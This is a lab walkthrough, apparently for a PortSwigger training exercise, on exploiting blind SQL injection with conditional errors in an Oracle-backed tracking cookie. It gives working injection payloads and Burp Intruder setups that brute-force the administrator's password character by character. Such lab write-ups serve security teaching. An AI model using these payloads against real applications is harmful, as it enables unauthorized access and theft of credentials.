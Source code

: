 # Lab: Blind SQL injection with conditional errors

## Description

 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

## HINT

This lab uses an Oracle database. For more information, see the SQL injection cheat sheet.

# Step 1: Verify blind, conditional-error-based SQLi

## STEP 1 Finding injection point

I will be using burpsuite for this lab. To start, I start with intercept off and visit the target page in the browser. I also pull up the browser dev tools, in order to view and modify my cookie values.

![image](https://user-images.githubusercontent.com/83407557/169845297-c31515b2-98b3-478d-bdd7-07ed9c1e259c.png)

I then will try and attempt to get the server to error with a single quotation mark added to my tracking cookie and refreshing the page:

![image](https://user-images.githubusercontent.com/83407557/169846190-10990e6d-5b0e-4fe4-87a6-ff97b40404d2.png)

If I then add a comment -- the error goes away:

![image](https://user-images.githubusercontent.com/83407557/169846508-c3987f72-d92d-467a-9082-729621022ca5.png)


## STEP 2 Using true and false Select statement to cause an error

In oracle I need to select from something, which I will use the always valid table *dual*. 

A Valid statement would be:

```sql
SELECT * FROM dual
```

This is because dual exists and as long as the server can select from it, the statement will not error

and invalid statement would be:

```sql
SELECT * FROM doesnt_exist
```

So with that mind, I will need to concatonate this onto my payload like the following:

Should NOT error
```sql
'||(SELECT * FROM dual)--
```

SHOULD error
```sql
'||(SELECT * FROM doesn't_exist)--
```

![image](https://user-images.githubusercontent.com/83407557/169852091-d4c0f322-8cf5-408b-aca0-53e5724100ad.png)

![image](https://user-images.githubusercontent.com/83407557/169852204-6e97b877-fccd-4935-80d5-1b7878e34e55.png)

and it acts as expected.

## STEP 3 Crafting a True select statement that causes an error

since the goal is to guess each character of the administrators password, we need to make it so that if our select statement is true, the server will throw an error:

Because 1 does equal 1, this should error because 1/0 is an invalid operation

```sql
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)--
```

![image](https://user-images.githubusercontent.com/83407557/169855167-14bdbf28-ab76-4e57-83cb-d699e7aefd39.png)

However with the following because 1 does not equal 2, the sever will select anything ('') from dual and therefore not error

```sql
'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)--
```


![image](https://user-images.githubusercontent.com/83407557/169855765-b282598e-32da-4d1e-9325-dac145575ca6.png)


# STEP 4 Creating string for burp-intruder payload to determine password length


Since we know the table name is users and the username column will be administrator, we need to dig out the password column for that entry:

I want to test if the password is greater than a given number, if it is: the server should error. If the password is smaller than the given number, the server should not error. I will know how long the password is based on the highest given number that still errors.

The initial string will just test if the password is more that 1 character long. I will then send it to burp intruder

```sql
'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')--
```
I can then set the payload position at the number I am comparing the password length to:

![image](https://user-images.githubusercontent.com/83407557/169927613-cead1037-ddf6-49a4-9c06-119f40cfd87d.png)

And will set a sniper payload that is a set of numbers ranging from 1-30.

![image](https://user-images.githubusercontent.com/83407557/169927748-e8979edf-4647-4628-944f-71c6454a2ada.png)

This attack should error out until the password length is given from the set of numbers

![image](https://user-images.githubusercontent.com/83407557/169927902-6466f9bd-ea4c-4158-b194-959cb4a5fe88.png)

because the is password > 20 did not return an error, this lets me know that the password is 20 characters long.

# STEP 5 Use substring method to guess 20 character long password

In a similar fasion I can create a query that can guess the password one character at a time, until all 20 are guessed. 

The initial query string:

This tests if the first character is an 'a'
```sql
'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')--
```

This would check if the second character was 'b'
```sq;
'||(SELECT CASE WHEN SUBSTR(password,2,1)='b' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')
```

With that in mind, lets build a burp intruder attack:

It will be a cluster bomb, with two payload positions. The first at the substring number, the second at the letter we are guessing.

![image](https://user-images.githubusercontent.com/83407557/169928628-e02b9304-e80c-4b53-9e4f-01d218dcb705.png)

The first payload will be the number 1-20

![image](https://user-images.githubusercontent.com/83407557/169928707-11642282-9a35-4c3a-804c-d85307f4061e.png)

the second is a brute force with all lowercase letters and the numbers 0-9.

![image](https://user-images.githubusercontent.com/83407557/169928811-7c43b756-79ee-4c82-83bb-752a0df3e34f.png)

As you can see this will create a lot of requests, so go get a coffee at the farther place that is a little more fancy (if you are on burp community like me). However we just are interested in the 20 responses that are errors, so after a nap, we should have the password.


![image](https://user-images.githubusercontent.com/83407557/169945907-d5a14be1-0a77-4cd4-a2db-209fc6c8a9a7.png)

with this I can see the password is llp16sqnu3uzoftvkg5r

# STEP 6 Login as administrator user with password llp16sqnu3uzoftvkg5r

![image](https://user-images.githubusercontent.com/83407557/169946340-d104b093-c7d0-4725-82cd-4e3c87e0076b.png)


redirecting to:
![image](https://user-images.githubusercontent.com/83407557/169946300-ab2091d6-9185-4d09-bb22-6ea06cd8a496.png)
